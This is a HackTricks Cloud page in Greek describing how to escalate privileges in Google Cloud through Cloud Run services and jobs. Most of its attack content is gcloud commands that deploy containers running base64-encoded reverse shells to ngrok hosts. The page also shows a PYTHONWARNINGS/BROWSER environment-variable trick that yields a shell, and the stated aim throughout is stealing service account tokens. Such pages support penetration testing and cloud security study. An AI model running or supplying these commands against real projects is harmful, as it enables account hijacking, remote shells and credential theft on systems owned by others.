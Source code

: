 # GCP - Run Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Run

Για περισσότερες πληροφορίες σχετικά με το Cloud Run, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Ένας επιτιθέμενος με αυτές τις άδειες για **δημιουργία μιας υπηρεσίας run που εκτελεί αυθαίρετο κώδικα** (αυθαίρετο Docker container), μπορεί να συνδέσει μια Υπηρεσία Λογαριασμού σε αυτήν και να κάνει τον κώδικα **να εξάγει το token της Υπηρεσίας Λογαριασμού από τα μεταδεδομένα**.

Ένα σενάριο εκμετάλλευσης για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) και η εικόνα Docker μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Σημειώστε ότι όταν χρησιμοποιείτε `gcloud run deploy` αντί να δημιουργήσετε απλώς την υπηρεσία **χρειάζεται η άδεια `update`**. Ελέγξτε ένα [**παράδειγμα εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Όπως η προηγούμενη αλλά ενημερώνοντας μια υπηρεσία:
```bash
# Launch some web server to listen in port 80 so the service works
echo "python3 -m http.server 80;sh -i >& /dev/tcp/0.tcp.eu.ngrok.io/14348 0>&1" | base64
# cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg==

gcloud run deploy hacked \
--image=ubuntu:22.04 \  # Make sure to use an ubuntu version that includes python3
--command=bash \
--args="-c,echo cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

Δώστε στον εαυτό σας προηγούμενες άδειες πάνω στο cloud Run.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

Εκκινήστε μια εργασία με ένα reverse shell για να κλέψετε τον λογαριασμό υπηρεσίας που υποδεικνύεται στην εντολή. Μπορείτε να βρείτε ένα [**exploit εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Παρόμοια με την προηγούμενη, είναι δυνατόν να **ενημερώσετε μια εργασία και να ενημερώσετε το SA**, την **εντολή** και να **την εκτελέσετε**:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### `run.jobs.setIamPolicy`

Δώστε στον εαυτό σας τις προηγούμενες άδειες πάνω από τα Cloud Jobs.

### `run.jobs.run`, `run.jobs.runWithOverrides`, (`run.jobs.get`)

Καταχρήστε τις μεταβλητές περιβάλλοντος μιας εκτέλεσης εργασίας για να εκτελέσετε αυθαίρετο κώδικα και να αποκτήσετε ένα reverse shell για να εξάγετε τα περιεχόμενα του κοντέινερ (πηγαίος κώδικας) και να αποκτήσετε πρόσβαση στο SA μέσα στα μεταδεδομένα:

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
